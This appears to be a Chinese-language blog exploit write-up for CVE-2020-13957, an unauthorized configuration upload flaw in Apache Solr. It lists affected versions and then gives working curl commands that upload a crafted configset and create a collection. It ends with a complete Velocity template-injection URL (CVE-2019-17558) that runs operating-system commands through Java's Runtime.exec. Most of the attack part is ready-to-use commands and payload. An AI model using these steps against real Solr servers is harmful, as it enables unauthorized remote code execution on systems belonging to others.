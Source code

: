 # CVE-2020-13957 Apache Solr 未授权上传

![img](https://img-blog.csdnimg.cn/20201016174758243.png)

影响版本:  

- Apache Solr 6.6.0 -6.6.5
- Apache Solr 7.0.0 -7.7.3
- Apache Solr 8.0.0 -8.6.2  

利用条件：

```
不同版本需要的zip文件不同，需要提前准备好对应版本的恶意zip文件。（Solr7.7.0为例）
1、进入/solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf 目录
2、zip -r - * > mytest.zip
```


利用方法：

```
1、执行
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @mytest.zip "http://ip:8983/solr/admin/configs?action=UPLOAD&name=mytest"

2、执行
curl "http://ip:8983/solr/admin/collections?action=CREATE&name=mytest2&numShards=1&replicationFactor=1&wt=xml&collection.configName=mytest"

3、此时可以看到已经上传上去名为mytest2的Collection。现在就可以使用CVE-2019-17558漏洞执行RCE。
http://ip:8983/solr/mytest2/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27pwd%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![img](https://img-blog.csdnimg.cn/20201016180104719.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTg5MjU4,size_16,color_FFFFFF,t_70)